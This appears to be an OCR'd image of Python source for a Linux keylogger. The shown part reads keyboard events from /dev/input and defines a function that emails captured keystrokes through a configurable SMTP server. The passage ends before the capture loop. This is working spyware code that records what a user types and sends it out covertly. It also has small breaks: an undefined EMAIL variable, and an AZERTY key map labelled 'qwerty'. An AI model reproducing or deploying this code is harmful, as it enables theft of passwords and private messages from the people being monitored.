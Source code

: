 ```python
    #!/usr/bin/env python3
    # -*-coding:Latin-1 -*
    
    import sys
    import re
    import struct
    from email.mime.multipart import MIMEMultipart
    from email.mime.text import MIMEText
    import smtplib
    
    qwerty_map = {
        2: "1", 3: "2", 4: "3", 5: "4", 6: "5", 7: "6", 8: "7", 9: "8", 10: "9",
        11: "0", 12: "-", 13: "=", 14: "[BACKSPACE]", 15: "[TAB]", 16: "a", 17: "z",
        18: "e", 19: "r", 20: "t", 21: "y", 22: "u", 23: "i", 24: "o", 25: "p", 26: "^",
        27: "$", 28: "\n", 29: "[CTRL]", 30: "q", 31: "s", 32: "d", 33: "f", 34: "g",
        35: "h", 36: "j", 37: "k", 38: "l", 39: "m", 40: "ù", 41: "*", 42: "[SHIFT]",
        43: "<", 44: "w", 45: "x", 46: "c", 47: "v", 48: "b", 49: "n", 50: ",",
        51: ";", 52: ":", 53: "!", 54: "[SHIFT]", 55: "FN", 56: "ALT", 57: " ", 58: "[CAPSLOCK]",
    }
    
    USE_TLS = None
    SERVER = None
    MAIL = None
    BUF_SIZE = None
    PASS = None
    KEYBOARD = "qwerty"
    
    def sendEmail(message):
        msg = MIMEMultipart()
    
        password = PASS
        msg['From'] = EMAIL
        msg['To'] = EMAIL
        msg['Subject'] = "Log clavier"
    
        msg.attach(MIMEText(message, 'plain'))
    
        server = smtplib.SMTP(SERVER)
    
        if USE_TLS is True:
            server.starttls()
    
        server.login(msg['From'], password)
        server.sendmail(msg['From'], msg['To'], msg.as_string())
        server.quit()
    
    
    def main():
        with open("/proc/bus/input/devices") as f:
            lines = f.readlines()
    
            pattern = re.compile("Handlers|EV=")
            handlers = list(filter(pattern.search, lines))
    
            pattern = re.compile("EV=120013")
            for idx, elt in enumerate(handlers):
                if pattern.search(elt):
                    line = handlers[idx - 1]
            pattern = re.compile("event[0-9]")
            infile_path = "/dev/input/" + pattern.search(line).group(0)
    
        FORMAT = 'llHHI'
        EVENT_SIZE = struct.calcsize(FORMAT)
```